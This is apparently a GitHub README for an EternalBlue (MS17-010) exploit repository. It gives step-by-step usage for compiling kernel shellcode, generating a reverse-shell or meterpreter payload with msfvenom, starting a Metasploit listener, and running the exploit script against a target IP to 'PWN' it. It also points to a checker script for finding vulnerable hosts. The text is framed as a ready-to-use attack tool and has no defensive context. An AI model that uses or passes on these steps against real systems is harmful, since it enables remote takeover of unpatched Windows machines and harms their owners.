 # MS17-010 (ETERNAL BLUE) Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`

## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
IP for reverse connection:
<YOUR-IP>
PORT you want x64 to listen on:
<SOME PORT>
PORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the propmts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

IP for reverse connection:
<YOUR-IP>
PORT for x64 reverse connection:
<SOME PORT>
PORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run `python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin>`

This has only been tested on Windows 7/Server 2008, however the exploit included in this repo also includes the Windows 8 version and *should* work.


The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
